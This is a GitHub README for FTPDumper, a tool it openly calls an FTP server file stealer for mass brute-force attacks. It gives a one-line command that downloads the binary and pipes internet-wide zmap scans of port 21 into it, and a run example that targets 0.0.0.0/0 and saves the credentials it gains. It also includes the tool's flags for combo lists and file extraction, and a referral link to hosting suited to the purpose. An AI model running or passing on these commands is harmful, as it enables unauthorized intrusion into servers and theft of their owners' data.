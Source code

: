 <p align="center"><img src="https://i.ibb.co/TR8ZCyn/New-Project.png" width="256" alt="logo"></p>
<h1 align="center">FTPDumper - A FTP Servers Stealer</h1>


<p align="center">
<img alt="FTPDumper forks" src="https://img.shields.io/github/forks/MatrixTM/FTPDumper?style=for-the-badge">
<img alt="GitHub Repo stars" src="https://img.shields.io/github/stars/MatrixTM/FTPDumper?style=for-the-badge">
<br>
<!-- <img alt="GitHub Downloads" src="https://img.shields.io/github/downloads/MatrixTM/FTPDumper/FTPDumper?style=social&color=07c1f0"> -->
<p align="center">
 <img src="https://views.whatilearened.today/views/github/MatrixTM/FTPDumper.svg" width="80px" height="28px" alt="View">
</p>

___

<p align="center"><img src="https://i.imgur.com/H39uBH3.png" width="1040" alt="features"></p>

## 📖 What is FTPDumper ?

FTPDumper is an easy-to-use yet advanced FTP server file stealer.
It can be utilized in massive FTP brute-force attacks, supporting various formats such as combo, pipe input, CIDR, files, and even a single IP address.

FTPDumper boasts a plethora of features, including:
- 💡 **Anti-Fake File Detection**: Utilizes advanced algorithms to detect and prevent the extraction of counterfeit files.
- 🔍 **Self-Implemented Scanner**: Employs an internally developed scanning mechanism to ensure thoroughness and efficiency.
- 🖥️ **Modern and Sleek User Interface**: Offers a visually appealing and user-friendly interface for seamless navigation and operation.
- ⚡ **Fast and Memory-Safe Operation**: Executes operations swiftly while maintaining optimal memory usage to prevent system slowdowns or crashes.
- 🤝 **Smart Connection and Timeout Management**: Implements intelligent connection strategies and timeout configurations to maximize accuracy and resource utilization.

###### Use it at your own RISK!


## 🔍 Overview

- 🚀 [Quickstart](#-quickstart)
- ⚙️ [Arguments](#%EF%B8%8F-arguments)
- 👨‍💻 [Best Way to get a server](#-best-way-to-get-a-server)

# 🚀 Quickstart

---

#### One-Line Install And Running on Fresh VPS
```bash
apt update && apt install -y zmap && wget -q $(curl -s https://api.github.com/repos/MatrixTM/FTPDumper/releases/latest | grep browser_download_url | grep "FTPDumper" | cut -d '"' -f 4) && chmod +x FTPDumper && zmap -p 21 -B 50MB -q | ./FTPDumper -l 5000
```

<details>
 <summary><b>🔧 Manual Installation</b></summary>
<h3> 1. Download FTPDumper </h3>
<p>Download FTPDumper from <a href="https://github.com/MatrixTM/FTPDumper/releases">Releases</a></p>

<h3> 2. Set Up Permission </h3>

Set up permission to FTPDumper binary file.
```bash
chmod +x FTPDumper
```

<h3> 3. Run FTPDumper </h3>

You have a few ways to use FTPDumper.

- Zmap
  - Download Zmap
  ```bash
  sudo apt install zmap
  ```
  - Run FTPDumper (Zmap)
  ```bash
  zmap -p 21 -q | ./FTPDumper -l 500 -save
  ```
  - Run FTPDumper (DevWay)
  ```bash
  ./FTPDumper -l 500 -save -s 0.0.0.0/0
  ```
  Check out [Arguments](#-arguments) to see more
</details>

---

# ⚙️ Arguments

```bash
MatrixTM@FTPDumper: ./FTPDumper --help
FTPDumper - Scan World FTP Servers and Steal Their Data

  Flags:
       --version   Displays the program version string.
    -h --help      Displays help with available flag, subcommand, and positional value parameters.
    -scan --scanner   Ip/CIDR scanner (stdin|filename|cidr|ip) (default: stdin)
    -c --combo     Combo File (user:password)
    -p --ports     Ports Split by , (Default Port: 21)
    -o --output    Output Folder (default: files)
    -f --formats   File Formats Split by , (Default Format: all)
    -l --limit     Task limit (default: 10)
    -t --timeout   Timeout in seconds (default: 5s)
    -s --save      Save Credentials in hit.txt
    -v --verbose   Verbose Mode
```

| Argument         | Description                                                                     | Default Value |
|------------------|---------------------------------------------------------------------------------|:-------------:|
| --version        | Displays the program version string.                                            |     None      |
| -h, --help       | Displays help with available flag, subcommand, and positional value parameters. |     None      |
| -scan, --scanner | IP/CIDR scanner [stdin\|filename\|cidr\|ip] stdin                               |     stdin     |
| -c, --combo      | Combo File (user:password)                                                      |   anonymous   |
| -p, --ports      | Ports Split by ,                                                                |      21       |
| -o, --output     | Output Folder files                                                             |     files     |
| -f, --formats    | File Formats Split by ,                                                         |      all      |
| -l, --limit      | Task limit                                                                      |      10       |
| -t, --timeout    | Timeout in seconds                                                              |      5s       |
| -s, --save       | Save Credentials in hit.txt                                                     |     False     |
| -v, --verbose    | Verbose Mode                                                                    |     False     |
---

# 👨‍💻 Best Way to get a server

<a href="https://aeza.net/?ref=375036"><img src="https://i.ibb.co/wgq9Ly8/aezabanner.png" width="728" height="90"  alt="aeza"></a>
##### For this subject, the best hosting I found is [Aeza](https://aeza.net/?ref=375036 "Aeza Hosting")
##### You Can buy hourly 10Gbps & Ryzen 9 Servers with a cheap price

[//]: # ()
[//]: # ()
[//]: # (## Star history)

[//]: # ()
[//]: # (---)

[//]: # (<picture>)

[//]: # (  <source)

[//]: # (    media="&#40;prefers-color-scheme: dark&#41;")

[//]: # (    srcset=")

[//]: # (      https://api.star-history.com/svg?repos=MatrixTM/FTPDumper&type=Date&theme=dark)

[//]: # (    ")

[//]: # (  />)

[//]: # (  <source)

[//]: # (    media="&#40;prefers-color-scheme: light&#41;")

[//]: # (    srcset=")

[//]: # (      https://api.star-history.com/svg?repos=MatrixTM/FTPDumper&type=Date)

[//]: # (    ")

[//]: # (  />)

[//]: # (  <img)

[//]: # (    alt="Star History Chart")

[//]: # (    src="https://api.star-history.com/svg?repos=MatrixTM/FTPDumper&type=Date")

[//]: # (  />)

[//]: # (</picture>)
